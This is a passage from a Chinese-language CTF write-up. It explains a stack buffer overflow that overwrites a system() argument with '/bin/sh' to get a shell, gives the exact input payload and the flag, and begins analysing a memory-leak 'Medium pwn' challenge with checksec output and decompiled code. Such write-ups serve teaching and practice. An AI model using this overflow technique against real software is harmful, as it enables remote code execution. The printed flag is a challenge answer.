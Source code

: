 其中的 `local_30` 是一個長度為 8 的陣列，但是第 15 行卻給我們 0x18 的可寫入長度，導致我們可以 BOF

而再來看，程式會把 `local_28` 作為 system 函式的輸入，而其剛好是 `local_30` 的後面，因此只要我們覆蓋掉 `local_30` 的 8 個空間之後就能覆蓋 `local_28` 的內容，因此我們能蓋成 `/bin/sh` 並給 system 作為輸入，即可成功 RCE

總之，以下是輸入

```
aaaaaaaa/bin/sh
```

`flag{4_Cl45siC_M3mOry_COrrupt1ON}`

### Medium pwn
```!
Can you fool the Stack oracle?
```
附件: `nc pwn.bbctf.fluxus.co.in 4002`, `medium_pwn.zip`

首先使用 checksec 檢查保護，一樣這題是全開的

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

丟到 ghidra 觀察，可以看到在 main 中會一直 call `gimme_pointer` 這個函式

```clike=
void main(void)

{
  puts("Hi! I am the Stack Oracle.\n");
  do {
    gimme_pointer();
  } while( true );
}
```

而 `gimme_pointer` 這個函式會告訴我們目前會寫入的 stack 位置，並要求我們提供一個記憶體位置給他，他會回傳 8 bytes 該記憶體的內容

```clike=
void gimme_pointer(void)

{
  long in_FS_OFFSET;
  undefined8 local_30;
  undefined local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("You are here: %p\n Give me an address and I will grant you 8 leaked bytes:\n",local_28) ;
  read(0,local_28,0x40);
  hex_string_to_byte_array(local_28,&local_30,0x10);
  printf("Here are the contents of %p:\n",local_30);
  print_buf(local_30,8);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
